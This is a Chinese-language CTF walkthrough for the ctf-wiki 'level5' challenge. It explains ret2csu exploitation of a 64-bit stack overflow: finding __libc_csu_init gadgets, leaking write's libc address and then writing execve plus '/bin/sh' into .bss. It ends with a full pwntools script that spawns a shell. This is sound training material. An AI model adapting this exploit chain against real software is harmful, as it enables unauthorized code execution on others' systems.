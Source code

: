#level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets  
首先使用objdump观察__libc_csu_init  
[](image/1.png)  
[](image/2.png)  
运行一下程序  
发现是一个简单的输入程序  
[](image/3.png)  
调用了read函数读取输入  
那么首先利用pattern找到溢出点  
[](image/4.png)  
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造  
利用的四个步骤：  
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。  
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。  
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。  
4、通过溢出执行bss段内的execve函数。  
需要涉及到的知识点  
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。  
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。  

完整代码  
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```
